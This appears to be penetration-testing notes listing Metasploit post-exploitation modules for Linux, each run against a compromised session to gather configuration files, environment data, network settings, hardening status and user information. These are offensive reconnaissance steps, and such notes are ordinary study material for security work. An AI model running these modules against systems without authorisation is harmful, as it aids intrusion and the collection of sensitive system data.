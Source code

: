 ```msfconsole
use post/linux/gather/enum_configs
show options
set SESSION <session-id>
run
```

> This will give addresses of all the configuration files on the machine.

```msfconsole
use post/linux/gather/env
show options
set SESSION <session-id>
run
```

> This will show all the env related data like versions and all.

```msfconsole
use post/linux/gather/enum_network
show options
set SESSION <session-id>
run
```

> This will give all the network related data and configuration files.

```msfconsole
use post/linux/gather/enum_protections
show options
set SESSION <session-id>
run
```

> This module checks all the basic system hardening methods are in place or not.

```msfconsole
use post/linux/gather/enum_system
show options
set SESSION <session-id>
run
```

> This gathers system and user infos.

```msfconsole
use post/linux/gather/checkcontainer
show options
set SESSION <session-id>
run
```

> This will check whether we are in a container or an actual machine.

```msfconsole
use post/linux/gather/checkvm
show options
set SESSION <session-id>
run
```
